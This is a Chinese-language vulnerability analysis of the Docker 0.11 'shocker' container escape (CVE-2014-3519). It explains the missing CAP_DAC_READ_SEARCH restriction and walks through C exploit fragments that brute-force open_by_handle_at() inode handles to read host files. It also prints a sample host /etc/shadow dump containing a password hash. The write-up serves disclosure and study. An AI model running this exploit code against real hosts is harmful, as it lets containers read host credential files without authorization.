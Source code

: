 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过


##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。  
下面只是简略的描述其功能，更多关于CAP_DAC_READ_SEARCH的内容请查阅[capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html)

CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如果open_by_handle_at函数具有CAP_DAC_READ_SEARCH，那它就可以读取任意文件和文件夹。  

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中文件或者目录的文件描述符
- file_handle  一个文件或者目录的描述信息
- flags   The flags argument is as for open(2).

[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下:   


     struct file_handle {
          unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
          int           handle_type;    /* Handle type [out] */
           unsigned char f_handle[0];    /* File identifier (sized by
                                                    caller) [out] */
        };
    

file_handle结构中f_handle[0]为8位inode号。    
在大多数的文件系统中，根目录的inode号为2，这个信息提供了一个可以暴力破解的方式： 攻击者可以通过打开根目录,比较目录名和文件名，遍历inode号达到查看任意文件的目的。

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开宿主机任意文件，获得文件描述符

    //打开宿主机器上的任意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程  
查找目录：  

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
找到/etc目录，得到/etc的inode号  

暴力试验inode数字，找到文件: 

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：  
docker version 版本 <=0.11 均存在漏洞  
测试[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证  
作者提供了测试镜像： gabrtv/shocker  已经修复会提示没有权限  

##影响版本：
docker版本 <=0.11 均存在漏洞


##官方修复
官方讨论白名单的方式来赋予权限，可见[Granular capabilities / priviledged whitelist](https://github.com/docker/docker/issues/2080)  
官方正式去掉黑名单，可见[dockerinit: drop capabilities](https://github.com/docker/docker/pull/3015/files)  
去掉CAP_DAC_READ_SEARCH的[请求](https://github.com/docker/docker/pull/6525/commits)也被关闭了



##相同漏洞：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##参考链接：
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek
- https://blog.docker.com/2014/06/docker-container-breakout-proof-of-concept-exploit/